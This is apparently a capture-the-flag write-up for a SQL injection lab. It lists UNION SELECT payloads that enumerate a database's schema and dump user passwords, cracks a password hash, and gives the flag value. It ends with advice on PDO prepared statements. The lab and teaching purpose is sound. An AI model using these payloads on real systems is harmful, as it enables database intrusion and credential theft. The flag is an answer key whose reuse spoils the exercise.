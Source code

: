 # SQL Injection - Members

`10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## Description

go to `/?page=member`

submit :
- `1 AND 1=2 UNION SELECT column_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_schema, 1 FROM information_schema.tables`

then \
`1 AND 1=2 UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users`

"Decrypt this password -> then lower all the char. Sh256 on it and it's good !"

password => 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo

FortyTwo = fortytwo 
fortytwo => sh256 => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

---

## How to prevent it ?

In the case of a php back-end, use PDO :
- The query will be sanitized with the `prepare` statement
- It will then be executed with the `execute` statement once the risk of an undesired effect is avoided

Here is a more detailed explanation found on StackOverflow regarding the `prepare` and `execute` commands :

>The SQL statement you pass to prepare is parsed and compiled by the database server. By specifying parameters (either a ? or a named parameter like :name in the example above) you tell the database engine where you want to filter on. Then when you call execute, the prepared statement is combined with the parameter values you specify.

>The important thing here is that the parameter values are combined with the compiled statement, not an SQL string. SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters, you limit the risk of ending up with something you didn't intend."